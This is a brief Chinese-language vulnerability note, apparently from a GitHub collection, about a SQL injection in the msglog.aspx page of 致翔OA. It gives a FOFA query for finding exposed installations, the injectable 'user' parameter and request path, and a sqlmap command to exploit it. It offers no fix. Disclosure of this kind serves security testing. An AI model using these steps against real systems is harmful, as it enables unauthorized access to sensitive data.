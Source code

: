 # 致翔OA msglog.aspx SQL注入漏洞

## 漏洞描述

致翔OA msglog.aspx文件存在SQL注入漏洞，攻击者通过漏洞可获取敏感信息

## 漏洞影响

```
致翔OA
```

## FOFA

```
app="致翔软件-致翔OA"
```

## 漏洞复现

产品页面

![image-20220520142109952](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201421236.png)

存在漏洞的文件为 `msglog.aspx`,涉及注入的参数为 user

```
/mainpage/msglog.aspx?user=1
```

SQLMap跑一下

```
sqlmap -u http://127.0.0.1/mainpage/msglog.aspx?user=1 -p user --batch
```

![image-20220520142130999](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201421211.png)